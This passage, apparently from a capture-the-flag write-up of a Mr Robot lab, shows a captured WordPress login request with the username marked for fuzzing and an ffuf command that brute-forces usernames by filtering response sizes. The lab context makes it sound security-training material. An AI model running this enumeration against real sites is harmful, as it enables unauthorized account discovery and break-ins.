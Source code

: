 open burpsuite and intercept the request and then save it in a file and in the username field type the word **FUZZ** like this

```
POST /wp-login.php HTTP/1.1
Host: 10.10.208.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.10.208.13
Connection: close
Referer: http://10.10.208.13/wp-login.php
Cookie: wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=FUZZ&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.208.13%2Fwp-admin%2F&testcookie=1
```

then using **ffuf** again let's bruteforce it

```
ffuf -request request.txt -w cleaned.dic -fs 3540
```

the -fs will filter the response size so we can get the right username.

![img-description](/assets/img/MrRobot/Bruteforcingusernames.png)
_Bruteforcing Username_
